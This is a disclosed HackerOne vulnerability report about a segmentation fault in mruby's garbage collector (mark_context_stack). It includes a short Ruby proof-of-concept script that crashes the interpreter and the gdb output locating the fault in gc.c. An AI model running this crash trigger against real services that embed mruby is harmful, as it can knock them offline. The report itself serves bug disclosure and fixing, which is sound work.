 # SIGSEGV - mark_context_stack

## Report Details
- **Report ID**: 209937
- **URL**: https://hackerone.com/reports/209937
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2017-03-01T21:59:51.440Z
- **Disclosed**: 2017-05-13T21:32:16.707Z

## Reporter
- **Username**: ston3
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: shopify-scripts

## Vulnerability Information
PoC
-------------------

The following code triggers the bug (attached as test_mark_context_stack.rb):

	def one
	too{yield}end
	def too
	yield
	ensure
	one{break}end
	one

Debug - mirb
-------------------

	Starting program: /home/x/Desktop/test/mruby/bin/mirb test_mark_context_stack
	mirb - Embeddable Interactive Ruby Shell

	 => :one
	 => :too

	Program received signal SIGSEGV, Segmentation fault.
	0x0000000000435a7e in mark_context_stack (mrb=0x6af010, c=0x6bb530) at /home/x/Desktop/test/mruby/src/gc.c:554
	554	      if (mrb_basic_ptr(v)->tt == MRB_TT_FREE) {
	(gdb) l
	549	  if (c->stbase + e > c->stend) e = c->stend - c->stbase;
	550	  for (i=0; i<e; i++) {
	551	    mrb_value v = c->stbase[i];
	552	
	553	    if (!mrb_immediate_p(v)) {
	554	      if (mrb_basic_ptr(v)->tt == MRB_TT_FREE) {
	555	        c->stbase[i] = mrb_nil_value();
	556	      }
	557	      else {
	558	        mrb_gc_mark(mrb, mrb_basic_ptr(v));
	(gdb) info reg
	rax            0x0	0
	rbx            0x737280	7565952
	rcx            0x6af0e8	7008488
	rdx            0x6fe0f0	7332080
	rsi            0x6b67b0	7038896